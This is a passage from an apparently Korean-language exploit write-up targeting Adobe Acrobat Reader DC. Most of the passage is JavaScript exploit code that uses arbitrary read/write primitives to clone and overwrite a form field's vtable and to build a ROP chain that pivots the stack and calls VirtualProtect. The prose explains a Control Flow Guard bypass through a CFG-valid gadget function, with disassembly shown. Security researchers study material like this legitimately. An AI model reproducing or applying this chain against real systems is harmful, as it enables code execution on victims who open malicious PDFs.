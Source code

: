 console.println("[*] clone field vtable for overwriting defaultValue pointer");

for (var i = 0; i < 32; i++) AAW(arrBufPtr + 0x100 + i * 4, AAR(fieldVtbl + i * 4));

var originalDefaulValFunc = AAR(arrBufPtr + 0x100 + 0x48);
```

### Building ROP Chain : CFG Bypass

```jsx
ROP = VersionData[curAppVersion]["ROP"];
AAW(arrBufPtr + 0x100 + 0x48, AcroFormApiBase + ROP[0]); // ROP_s = AcroForm!sub_20EFAA60 ;
AAW(arrBufPtr + 0x100 + 0x30, AcroFormApiBase + ROP[1]); // xchg eax, esp ; ret ;
AAW(arrBufPtr + 0x100, AcroFormApiBase + ROP[2]); // pop esp ; ret ;
AAW(arrBufPtr + 0x100 + 4, arrBufPtr + 0x300); // pivot to our _stack
AAW(fieldVtblAddr, arrBufPtr + 0x100); // overwrite field vtable to our ROP start

console.println("[*] storing recovery context!");
AAW(arrBufPtr + 0x300 + 0x60, fieldVtblAddr); // original vtable ptr (goes back in ecx)
AAW(arrBufPtr + 0x300 + 0x64, fieldVtbl); // vtable funcs ptr
AAW(arrBufPtr + 0x300 + 0x68, originalDefaulValFunc); // original defaultVal impl to jump to
AAW(arrBufPtr + 0x300 + 0x6c, AAR(ARR_BUF_BASE + 8)); // corrupted arrbuf typed array ptr
AAW(arrBufPtr + 0x300 + 0x70, AAR(ARR_BUF_MALLOC_BASE)); // malloc header 0
AAW(arrBufPtr + 0x300 + 0x74, AAR(ARR_BUF_MALLOC_BASE + 4)); // malloc header 1

var rop = [
    AAR(AcroFormApiBase + VersionData[curAppVersion]["VirtualProtect"]), // VirtualProtect
    arrBufPtr + 0x400, // return address
    arrBufPtr + 0x400, // buffer
    0x1000, // sz
    0x40, // new protect
    arrBufPtr + 0x540 // old protect
];

for (var i = 0; i < rop.length; i++) AAW(arrBufPtr + 0x300 + 4 * i, rop[i]);
```

이후 복제된 vtable에 ROP 가젯 주소를 삽입하고 `textField`인 `f0`의 vtable 주소를 Fake vtable로 조작합니다. 이후 `f0.defaultValue`에 접근하면 `vtable + 0x48`에 위치한 `defaultValue` 함수가 호출되는데 Fake vtable에서는 아래의 `sub_20EFAA60`에 해당합니다.

```nasm
.text:20EFAA60 sub_20EFAA60    proc near               
.text:20EFAA60                                         
.text:20EFAA60                 mov     eax, [ecx]
.text:20EFAA62                 push    0Dh
.text:20EFAA64                 call    dword ptr [eax+30h]
.text:20EFAA67                 retn
.text:20EFAA67 sub_20EFAA60    endp
```

Adobe Acrobat Reader DC는 CFG(Control Flow Guard)가 활성화되어 있어 vtable을 통한 가상 함수 호출이나 함수 포인터를 통한 호출 등의 간접 호출이 발생할 때 `__guard_check_icall_fptr`이 가리키는 `ntdll!LdrpValidateUserCallTarget`이 호출되어 유효한 간접 호출인지 검사하고 그렇지 않을 경우 프로세스가 강제 종료됩니다. 따라서 vtable에 직접 ROP 가젯을 삽입하면 호출에 실패하게 됩니다.

하지만 `sub_20EFAA60`는 아래의 `AXTEFontAccess::`vftable'`에서 확인할 수 있는 것처럼 간접적으로 호출되는 함수이고 유효한 함수들의 RVA 주소가 저장된 `__guard_fids_table`에도 존재합니다. 
